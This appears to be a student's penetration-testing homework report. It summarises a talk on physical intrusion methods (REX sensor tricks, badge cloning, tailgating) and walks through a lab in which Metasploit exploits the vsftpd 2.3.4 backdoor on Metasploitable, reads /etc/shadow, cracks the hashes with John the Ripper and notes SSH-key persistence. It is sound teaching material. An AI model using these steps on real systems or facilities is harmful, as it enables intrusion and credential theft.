

# X) Summaries / Tiivistelmät

## I'll Let Myself In: Tactics & War Stories of Physical Pen Testing (Wild West Hackin' Fest)

**<ins>Overview/ Definition of Physical Penetration Testing</ins>**

-	Physical penetration testing involves testing physical security defenses to expose vulnerabilities in facility access control systems and security.
-	It’s not limited to lockpicking only. A wide variety of mechanical, electronic or social engineering techniques can be used to gain unauthorized access.

**<ins>Tactics & Techniques used in Physical Penetration Testing</ins>**

   **1. Lock manipulation:**
   - Tools such as lockpicks and shims are used to bypass functional locks.
   - Latch slipping tools exploit poorly maintained or misaligned locks.
     
   **2. Mechanical door bypass techniques:**
   - Common attack surfaces include door edge gaps, hinges or improperly installed hardware.
   - Tools include e.g., under-door tools, hinge pin removal tools, door latch bypass tools.
   
   **3. Request-to-Exit (REX) sensors:**
   - Exploitation of exposed REX sensors to unlock doors from the outside.
   - Techniques include air dusters, hand movements or directing heat toward the sensor.
   
   **4. Electronic credentials & locks:**
   - Exploitation of vulnerabilities in access control readers and electronic locks.
   - Use of credential sniffing and cloning to steal and reuse access data (e.g., hardware sniffer installation behind readers to intercept badge data).
   
   **5. Keyed-alike systems:**
   - Exploitation of keyed-alike systems that use the same physical key across multiple locks.
   - A stolen/duplicated key can be used to grant access to multiple areas within a facility. 
   
   **6. Social engineering:**
   - Impersonation / role-playing as authorized personnel 
   - Tailgating
   - Use of fake badges, uniforms, distractions to divert attention and reduce suspicion

**<ins>Other Takeaways</ins>**
- Confidence is key. An appearance of authority or belonging can be as effective as technical bypass methods.
- Human factors are a common weak link. Reluctance to confront others or question behavior is often exploited for successful physical intrusions.

## References / Lähteet:
- Ollam, D., 2017. I'll Let Myself In: Tactics & War Stories of Physical Pen Testing (Wild West Hackin' Fest). Lockpicking and Access Control - by Deviant Ollam. Available at: https://deviating.net/lockpicking/presentations.html

# A) Lippuvalmistelu. Valmistele kone ensi viikon lipunryöstöön.

**Device Used for Capture the Flag (CTF):**
- The CTF exercise will be conducted on a Kali Linux VM running on a Windows 10 host PC.

**Device Specifications:**
- Host Device
  - Operating System: Windows 10 (64-bit)
  - System Architecture: x64-based processor (amd64)
    
- Virtual Machine
  - Operating System: Kali Linux (Debian-based, 64-bit)
  - System Architecture: amd64

**Network Configuration:**
- The Kali VM can be connected or disconnected from the internet as needed from virtual network adapter settings (e.g. toggling the network cable in VirtualBox/VMware).

**VM File Transparency:**
- The Kali VM contains only course-related files used for homework tasks.
- No sensitive, personal, or confidential data is stored on the VM.

**Programs and Tools:**
- Only tools and software necessary for completing the course assignments have been installed on the Kali VM.
- No additional or unrelated programs have been installed on the machine.
  
**Notes:**
- It is currently undecided whether personal notes / reference materials will be used to support the completion of the CTF exercise.

**Local AI Usage:**
- No local AI tools have been installed on either the host machine or the virtual machine.

# B) Oma korkki. Demonstroi tunkeutumista itse valitsemallasi luvallisella maalilla.

**<ins>Task Description:</ins>**

- Exploiting a known vulnerability in the vsftpd 2.3.4 FTP service to gain unauthorized root shell access to a remote target using the Metasploit Framework.
- Performing post-exploitation (e.g. for lateral movement, persistence) by dumping and cracking system credentials from /etc/passwd and /etc/shadow using a password hash cracking tool

**<ins>Key tools: </ins>**

- **Kali Linux VM**: Acts as the attack machine used to run scans and exploits.
- **Metasploitable VM**: A deliberately vulnerable Linux VM that contains common security flaws. Default login: msfadmin:msfadmin
- **Metasploit**: A framework that provides tools for probing/exploiting known vulnerabilities on networks and servers, managing payloads and sessions, as well as automating attacks. Includes a CLI (msfconsole) and scripting capabilities for customizing attacks.
- **Msfconsole**: A CLI for the Metasploit Framework used to launch exploits, establish listeners, manage sessions and interact with compromised target systems.

**<ins>1. Setting Up an Isolated Host-Only Network:</ins>**

-  A host-only network allows the two VMs (attacker & target) to communicate only with each other while preventing the attack from reaching external networks/ the internet.
-  The host-only network has already been configured in h1 task F).
-  Disconnect the Kali VM from the internet: Disconnect the cable (adapter 1) from network settings & verify with `ping 8.8.8.8`
-  Boot up both the Kali & Metasploitable VMs
  
-  **Checking the IP addresses of the VM’s with `ifconfig` or `ip a`:**
	- Kali Linux: eth1 - 192.168.56.3
	- Metasploitable 2: eth0 - 192.168.56.4
    
- **Verifying the connection between the VMs & that they are on the same network:**
  - `ping 192.168.56.4` (from Kali VM)
  - `nmap -sn 192.168.56.0/24` (scan the subnet to discover all active hosts)

         
  

**<ins>2. Initial reconnaissance:</ins>**

- Scan the target to identify open ports and running services: `nmap -A -T4 -p- 192.168.56.4`
  
  

- The scan output shows port 21 is open and running FTP (vsftpd 2.3.4) 
- **vsftpd**:  
  - Is a common FTP server for Unix systems.
  - Version 2.3.4 is known to be vulnerable. It has a backdoor vulnerability that can be exploited to gain root shell access on the target machine. 

**<ins>3. Searching for the vsftpd 2.3.4 exploit in Metasploit:</ins>**

- This step verifies that the exploit is available in Metasploit.
  
- Launch Metasploit: : `msfconsole`
- Search for the exploit in Metasploit’s database: `search vsftpd`
  
  

- The output returns available exploit modules for vsftpd, including the module targeting the version 2.3.4 backdoor.

**<ins>4. Using the exploit:</ins>**

- Load the exploit: ` use exploit/unix/ftp/vsftpd_234_backdoor `
- Display information on required parameters/options: `show options`

  

- Get information on what the exploit does and how it’s used: `info`
  
  
  

- Set the required parameters: `set rhosts {target_IP}`
- Run the exploit: `run` or `exploit`
  - (or  `run -j`, the -j flag runs the exploit as a background job.)
    
- Succesful exploitation gives a shell as root on the target machine (uid=0(root) gid=0(root)).
  - `whoami`, `id`, `pwd`
    
- Note: The exploit automatically opens a shell session, there’s no need to separately type `shell`for it.
  
  

**<ins>5. Navigating the shell & confirming remote access to the target:</ins>**

- Comparing contents (files, folders) of the attacking & target VMs:
  
- Kali VM (attacker):
  
	- `ls -l`
  
- Metasploitable VM (target):
  
	- `cd /` (go to root)
	- `pwd`, 
	- `ls -l`

   
  

**<ins>6. Dumping User credentials:</ins>**

- **Create a New User:**
	- Create user: `sudo useradd attacker` (or `sudo useradd -m -s /bin/bash`)
	- Set password: `sudo passwd attacker`
   
  - Note: the adduser prompt doesn’t work properly with the remote shell.
  - Reference for removing a user:
  	- `cat /etc/passwd | grep <username>`
  	- `sudo userdel -r <username>`

- **Create a working directory (locally on Kali):**
  - `mkdir oma_korkki`
  - `cd oma_korkki`

**OPTION 1 – Dump and crack all user entries</ins>**
  
1. Dump system credentials (copy & paste)
	- Open and copy contents of /etc/shadow: `cat /etc/shadow`
	- Then: `nano shadow_all` & paste everything into shadow
	- Open and copy contents of /etc/shadow: `cat /etc/passwd`
	- Then: `nano passwd_all` & paste everything into passwd
    
2. Combine both files:
	- `unshadow passwd_all shadow_all > unshadowed_all`
  
  

3. Run John the Ripper to crack all user passwords listed in the unshadowed file:
	- `$HOME/john/run/john unshadowed_all`
	
	- Optionally: `$HOME/john/run/john --format=crypt unshadowed`
		- `--format=crypt` explicitly treats the hash as traditional DES-based unix crypt hash format. If not specified, John will auto-detect the format

	- Optionally specify some wordlist, e.g.: `$HOME/john/run/john --wordlist=/home/rodah/hashed/rockyou.txt unshadowed_all`
    
  	

**OPTION 2 – Dump and crack only one user</ins>**

1. Extract only the attacker user’s entries:
	- Open and copy contents of /etc/shadow: `cat /etc/shadow` or directly fetch the entry: `grep '^attacker:' /etc/shadow` /  `cat /etc/shadow | grep attacker`
	- Then: `nano shadow_one` & paste attacker entry to shadow
	- Open and copy contents of /etc/shadow: `cat /etc/passwd` or directly fetch the entry: `grep '^attacker:' /etc/passwd`  /  `cat /etc/passwd | grep attacker`
	- Then: `nano passwd_one` & paste attacker entry passwd

2. Combine both files:
	- `unshadow passwd_one shadow_one > unshadowed_one`
    
	- View the contents of the combined file: `cat unshadowed_one `

	

3. Run John the Ripper to crack all user passwords listed in the unshadowed file:
	- `$HOME/john/run/john --format=crypt unshadowed_one`  
	
	- **Note**: John keeps cracked hashes in john.pot, regardless of which file they’ve been cracked from. Since selected the password for the user “attacker” has already been cracked using option 1, the result for unshadowed_one won’t display it in the terminal. To view the result: `$HOME/john/run/john --show unshadowed_all` (The result in this case won’t even be displayed with `$HOME/john/run/john --show unshadowed_one`)
	
	

	

**<ins>7. Other notes:</ins>**

- Exit the remote shell with: `exit`
- Go back in msfconsole (deselect exploit) with: `back` or exit completely with `exit`
  
- Beyond dumping system credentials, an attacker could attempt to establish persistent access to the compromised system. Some documented techniques can be found online, such as using a Meterpreter and reverse shell payload with SSH persistence modules, or manually configuring SSH key-based access. E.g,, the attacker could insert their own public SSH key into the victim’s ~/.ssh/authorized_keys file, which allows future access even if the vsftpd backdoor or Meterpreter session is closed/ lost. These could be considered as potential next steps to further the exploitation.

## References / Lähteet:
-

# Tehtävänanto:
- Karvinen 2025 - Tunkeutumistestaus at https://terokarvinen.com/tunkeutumistestaus/#h6-maalisuoralla
